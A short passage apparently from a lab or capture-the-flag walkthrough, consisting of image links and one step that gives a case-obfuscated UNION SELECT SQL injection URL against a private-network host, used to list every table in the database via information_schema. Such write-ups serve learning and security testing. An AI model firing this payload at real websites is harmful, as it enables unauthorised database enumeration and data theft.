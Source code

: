 <a href="/images/gds2-3.png"><img src="/images/gds2-3.png"></a>

Now that we got the SQL Injection to work - let's start by pulling all the tables in the database with the following:

```
http://192.168.101.9:443/post.php?id=%27%29+UniOn+SeLecT+1,GroUp_ConCaT%28taBlE_SCheMa,0x20a,TAblE_NaME%29+FrOm+iNfOrmaTioN_scHeMa.TabLeS+WHerE+tAblE_SchEma=DaTabAsE%28%29%23
```

<a href="/images/gds2-4.png"><img src="/images/gds2-4.png"></a>
